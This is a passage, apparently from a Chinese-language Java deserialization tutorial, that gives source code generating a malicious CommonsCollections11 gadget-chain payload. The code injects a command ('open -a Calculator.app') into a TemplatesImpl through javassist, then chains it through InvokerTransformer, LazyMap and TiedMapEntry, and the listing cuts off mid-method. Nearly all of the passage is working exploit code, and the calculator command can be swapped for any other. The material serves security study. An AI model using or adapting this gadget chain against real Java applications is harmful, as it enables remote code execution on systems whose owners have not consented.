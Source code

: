 这里通过前面我们学习的`CommonsCollections11`链子生成恶意文件
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
```